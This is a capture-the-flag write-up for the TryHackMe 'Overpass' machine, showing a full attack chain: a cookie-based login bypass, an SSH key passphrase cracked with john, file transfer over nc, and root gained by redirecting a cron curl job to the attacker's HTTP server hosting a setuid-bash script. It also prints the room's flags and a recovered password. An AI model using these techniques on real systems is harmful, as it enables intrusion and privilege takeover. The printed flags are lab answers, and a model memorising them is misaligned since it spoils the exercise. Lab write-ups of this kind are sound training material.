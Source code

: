 Swatish Attaluri
Date: 31-05-2021
## Overpass - Tryhackme
### Machine IP: 10.10.57.133
#### Nmap scan
without -Pn: the states are filtered
```bash

$ nmap -sV -sC -oN ports 10.10.57.133 -Pn                                                            
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-31 20:19 IST
Nmap scan report for 10.10.57.133
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Overpass
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.49 seconds

```
#### Checking the website
There is a login page on /admin
View source and check for js files. 
Vulnerable code in login.js
```javascript
if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
```
The above code checks if statusOrCookie is "Incorrect credentials", if it is then, login fails.
But if a cookie named SessionToken is set which means it can have anything as a value, then we will be logged in.
Open browser console and type the following code:
#### Setting cookie on console
```console
Cookies.set("SessionToken", "123");
```
#### Login using SSH
We get a ssh key copy it to a file.
```bash
$ ssh -i id_rsa james@10.10.57.133   
The authenticity of host '10.10.57.133 (10.10.57.133)' can't be established.
ECDSA key fingerprint is SHA256:4P0PNh/u8bKjshfc6DBYwWnjk1Txh5laY/WbVPrCUdY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.57.133' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
Enter passphrase for key 'id_rsa': 
```
It asks for a passphrase. Lets use ssh2john to convert it to a hash and then use john.
```bash 
$ /usr/share/john/ssh2john.py id_rsa > hashforjohn
$ john hashforjohn.txt -w=/usr/share/wordlists/rockyou.txt | tee johnbruteforcehash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (id_rsa)
1g 0:00:00:01 15.81% (ETA: 08:27:27) 0.5076g/s 1261Kp/s 1261Kc/s 1261KC/s zone11champions
Session aborted
```
The passphrase is james13
```bash
$ ssh -i id_rsa james@10.10.57.133                                                                  
Enter passphrase for key 'id_rsa': james13
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-108-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Jun  1 02:57:59 UTC 2021

  System load:  0.0                Processes:           88
  Usage of /:   22.3% of 18.57GB   Users logged in:     0
  Memory usage: 12%                IP address for eth0: 10.10.57.133
  Swap usage:   0%


47 packages can be updated.
0 updates are security updates.


Last login: Sat Jun 27 04:45:40 2020 from 192.168.170.1

james@overpass-prod:~$ ls 
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}

james@overpass-prod:~$ ls -la
total 48
drwxr-xr-x 6 james james 4096 Jun 27  2020 .
drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
drwx------ 2 james james 4096 Jun 27  2020 .cache
drwx------ 3 james james 4096 Jun 27  2020 .gnupg
drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
-rw-r--r-- 1 james james  807 Jun 27  2020 .profile
drwx------ 2 james james 4096 Jun 27  2020 .ssh
-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt
james@overpass-prod:~$ cat .overpass 
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
```
The above string is rot47 encoded. Use https://www.dcode.fr/cipher-identifier to find out encryption.
Lets decode it
Rot47 uses a larger character set than rot13 such as adding symbols.
{"name":"System","pass":"saydrawnlyingpicture"}
password for james: saydrawnlyingpicture
#### Privilege Escalation
```bash
james@overpass-prod:~$ sudo -l
[sudo] password for james: saydrawnlyingpicture
Sorry, user james may not run sudo on overpass-prod.
```
Nothing to run on sudo. Lets use linpeas.
First send linpeas from local machine
Receiver end:
```bash
$ nc -lvnp 1234 > linpeas.sh
Listening on [0.0.0.0] (family 0, port 1234)
Connection from 10.17.6.214 46742 received!

```
Sender end:
``` bash
nc -w 3 10.10.57.133 1234 < linpeas.sh   
```
10.10.57.133 is the machine IP
```bash
james@overpass-prod:~$ chmod +x linpeas.ch
james@overpass-prod:~$ ./linpeas.sh
```
There is a cron job running curl overpass.thm/downloads/src/buildscript.sh
Linpeas also shows a vuln in /etc/hosts
Lets change ip in overpass.thm in /etc/hosts to our local machine ip.{NOT VPN}
as there is a script in /downloads/src
Lets create those directories in our own machine.
```bash

$ mkdir -p www/downloads/src
$ cd www/downloads/src;nano buildscript.sh
```
There is a buildscript.sh file running every minute, hour.
Lets create that file.
```bash

#! /bin/bash
chmod +s /bin/bash

```
/bin/bash is owned by root. Lets set a setuid bit for /bin/bash so that james can use bash as root.
As the file should be retrieved by the attackbox from our local machine, we need to set up a server on port 80 in directory "www"
```bash
$ sudo python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.57.133 - - [01/Jun/2021 09:19:00] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```
After a minute the file gets executed in out attackbox.
```bash
james@overpass-prod:~$ bash -p
bash-4.4# whoami
root
bash-4.4# cd /root
bash-4.4# ls
buildStatus  builds  go  root.txt  src
bash-4.4# cat root.txt 
thm{7f336f8c359dbac18d54fdd64ea753bb}
bash-4.4# 
```
bash -p to turn on privileged mode.
#### Answers
```body

1. Hack the machine and get the flag in user.txt
thm{65c1aaf000506e56996822c6281e6bf7}

2.Escalate your privileges and get the flag in root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}

```
#js
#cron
#bash